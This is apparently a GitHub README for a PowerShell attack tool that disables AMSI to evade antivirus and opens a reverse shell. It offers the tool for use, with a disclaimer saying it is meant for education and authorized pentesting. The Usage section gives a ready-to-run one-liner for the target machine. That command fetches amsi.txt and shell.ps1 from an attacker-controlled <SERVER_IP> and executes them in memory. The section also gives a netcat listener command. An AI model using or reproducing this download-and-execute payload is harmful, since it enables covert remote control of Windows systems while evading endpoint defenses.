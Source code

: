 # PowerShell Reverse Shell with AMSI Bypass

This repository contains a PowerShell script to establish a reverse shell connection while bypassing AMSI (Antimalware Scan Interface) to evade detection by antivirus software. The script is designed for educational purposes and penetration testing in authorized environments.

---

## Table of Contents
1. [Description](#description)
2. [Requirements](#requirements)
3. [Usage](#usage)
4. [How It Works](#how-it-works)
5. [Disclaimer](#disclaimer)

---

## Description

This project demonstrates how to:
1. Bypass AMSI to disable antivirus detection.
2. Download and execute a PowerShell reverse shell script from a remote server.
3. Establish a reverse shell connection to a specified IP and port.

The repository includes:
- `amsi.txt`: A script to bypass AMSI.
- `shell.ps1`: A PowerShell reverse shell script.

---

## Requirements

To use this project, you need:
- A Windows machine with PowerShell installed.
- A remote server to host the `amsi.txt` and `shell.ps1` files (e.g., a Python HTTP server).
- A listener on the attacker's machine to receive the reverse shell connection (e.g., `netcat`).

---

## Usage

### 1. Set Up the HTTP Server
Host the `amsi.txt` and `shell.ps1` files on a remote server. You can use a Python HTTP server for this:

```bash
python -m http.server 8000
```

### 2. Start a Listener
On the attacker's machine, start a listener to receive the reverse shell connection:

```bash
rlwrap -cAr nc -lvp 443
```

### 3. Execute the Payload
On the target machine, run the following command in PowerShell or CMD:

```cmd
powershell -ExecutionPolicy Bypass -NoProfile -Command "Invoke-Expression (Invoke-WebRequest -Uri 'http://<SERVER_IP>:8000/amsi.txt' -UseBasicParsing | Select-Object -ExpandProperty Content); $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri 'http://<SERVER_IP>:8000/shell.ps1' -UseBasicParsing).Content); Invoke-Expression $scriptContent"
```

Replace `<SERVER_IP>` with the IP address of your HTTP server.

---

## How It Works

1. **AMSI Bypass**:
   - The `amsi.txt` script disables AMSI, allowing the execution of scripts that would otherwise be blocked by antivirus software.

2. **Reverse Shell**:
   - The `shell.ps1` script establishes a TCP connection to the attacker's machine and provides an interactive shell.

3. **Remote Execution**:
   - The payload is downloaded and executed directly in memory, reducing the chances of detection by endpoint protection tools.

---

## Disclaimer

This project is intended for educational and authorized penetration testing purposes only. Do not use this tool for illegal or malicious activities. The author is not responsible for any misuse of this software. Always ensure you have proper authorization before using this tool in any environment.
